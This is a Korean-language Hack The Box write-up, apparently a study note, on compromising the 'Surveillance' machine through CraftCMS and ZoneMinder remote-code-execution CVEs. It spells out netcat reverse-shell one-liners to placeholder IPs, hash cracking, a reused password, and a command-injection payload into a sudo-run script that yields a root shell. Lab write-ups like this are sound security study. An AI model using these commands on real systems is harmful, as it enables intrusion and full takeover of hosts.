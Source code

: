 ### 사용된 취약점: CraftCMS 관련 취약점(RCE), zoneminder 취약점(RCE)
### 정찰
- CraftCMS
  - CraftCMS 라는 관리 툴을 로그인 페이지에서 발견
  - source 보기에서 csrf token 발견
  - source 보기에서 CraftCMS의 버전 정보가 있음
 <br></br>
### 초기 침투
- 취약점 설명
  - data 대신 shell을 인코딩하여 넣고 보낼 경우 파서가 코드를 실행하여 결과를 출력
  - https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py에 있는 exploit 코드를 사용
    - 특정 데이터를 담아 phpinfo()를 실행하는 스크립트를 보냄
    - phpinfo() 실행으로 tmpdir과 documen_root 디렉터리를 찾음
    - tmp 디렉터리에 webshell 생성 후 imagick class를 조작하여 root 디렉터리로 이동
    - while True부분에서 명령을 실행하여 지속적으로 명령을 실행하게 함
    - f'\033[1;96m[+]\033[0m create shell.php in {tmp_dir}', f'\033[1;31m[-]\033[0m {HOST} is not exploitable.'
    - expliot code에서 a \033[1;96m[+]\033 부분은 글씨의 크기나 색깔을 설정하는 부분
  <br></br>
- web shell 실행 후
  - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your IP here> 1234 >/tmp/f 코드를 타겟 머신에서 실행하여 완전한 shell을 획득한다
  - 내부에서 matthew와 zoneminder라는 이름을 발견했다.
  - storage에서 backups파일을 발견해서 웹 디렉터리에 넣고 wget으로 다운로드 한다.
    - cp /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip ./
    - wget surveillance.htb/surveillance--2023-10-17-202801--v4.4.14.sql.zip
      - 해당 db파일에서 matthew 계정과 패스워드 해시 값을 찾을 수 있다.
<br></br>
- 해시 값 크랙
  - hash-identifier로 종류를 확인한다.
    - sha-256과 haval-256으로 결과가 좁혀진다.
  - hashcat -m 1400 a.txt /usr/share/wordlists/rockyou.txt로 크랙을 시도
    - 나온 pw로 ssh를 이용하여 접속하여 user.txt 값을 읽는다.
<br></br>   
- matthew 말고도 zoneminder라는 것을 검색해본 결과 cctv 모니터링 소프트웨어라는 것을 알 수 있다.
<br><br>
- zoneminder
  - /etc/nginx/sites-enabled/zoneminder.conf에 127.0.0.1:8080 에서 서비스가 실행된다.
  - 접근하기 위해 포트 포워딩을 사용할 예정
    - ssh -L 2222:127.0.0.1:8080 matthew@surveillance.htb 로 포트포워딩을 한다
      - 하는 이유: local에 설치된 zonemider에 접근하기 위함
      - ssh -L [local포트]:[최종적으로 접근 할 곳] [ssh 서버 주소]
      - pw: starcraft122490
      - 이후에 브라우저에 127.0.0.1:2222 주소를 입력하여 접속한다
<br></br>
- 연결 된 후
  - 연결된 ssh 에서 버전 정보를 확인한다.
  - /usr/share/zoneminder/www/api/app/Config 에서 cat * | grep -i version을 실행하여 ZM_VERSION 1.36.32, ZM_API_VERSION 1.36.32.1 값을 확인
  - cve 2023-26035 익스플로잇 코드를 찾아 사용하여 reverse shell을 연결
    - CVE 2023-26035: RCE
    - python3 poc.py --target http://127.0.0.1:2222/ --cmd 'rm /tmp/f;cat /tmp/f|sh -i 2>&1|nc <내 ip> 4444 >/tmp/f'
  - reverse shell이 연결 된 후
    - sudo /usr/bin/zmupdate.pl -v 1.19.0 -u root를 실행 할 시 에러가 출력되고 에러에 pw가 포함되어 출력
    - sudo /usr/bin/zmupdate.pl -v 1.19.0 -u ';whoami; 실행 시 해당 스크립트가 root권한으로 실행되는 것을 알 수 있다
      - output으로 whoami 결과가 root로 나오기 때문
      - 파일 안에서 /bin/sh로 실행됨
      - mysql 커맨드를 실행하는 코드가 존재
    - sudo /usr/bin/zmupdate.pl -v 1.19.0 -u ';busybox nc <my_ip> 1234 -e sh; '로 root 권한을 얻은 reverse shell을 연결한다.
    - root.txt 파일을 읽는다.
  <br></br>

### 유의해야 할 점
### htb에서 root권한 스크립트를 통한 권한상승을 많이 봄
- root권한으로 실행하거나 /bin/sh로 명령어를 실행하는 스크립트를 이용하여 권한 상승을 시도한다.
### web.config, url 재작성하는 설정파일
![gobuster](https://github.com/murphy701/security/assets/50907298/d7928a50-f34b-4116-b30e-edcddbb79780)
- gobuster 사용 시 p1, p2 같은 결과를 얻음
- 해당 규칙이 설정 파일에서 url을 재정의 함
  - ##<action type=Rewrite" url="index.php?p={R:1}" appendQueryString="true" />
  - 필터링이 목적인 것으로 추측함
### 설정파일을 읽는 것을 공부하여 버전 정보 확인이나 권한 상승에 이용
### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1234 >/tmp/f
- reverse shell 연결 때 많이 보이는 명령어
  - rm /tmp/f;: tmp 안에 f라는 이름이 있는 파일을 모두 삭제
  - mkfifo /tmp/f: tmp안에 f라는 파이프 생성
    - mkfifo: fifo는 프로세스간 통신을 허용하는 파일
  - cat /tmp/f|/bin/sh -i 2>&1: cat으로 입력을 읽고 파이프로 전달되어 새로운 shell 객체를 인터렉티브 모드(-i)로 실행, 그 후 output과 error를 출력으로 보냄
  - nc 1234 >/tmp/f: nc로 연결 설정 후 수신된 데이터를 /tmp/f로 리디렉션
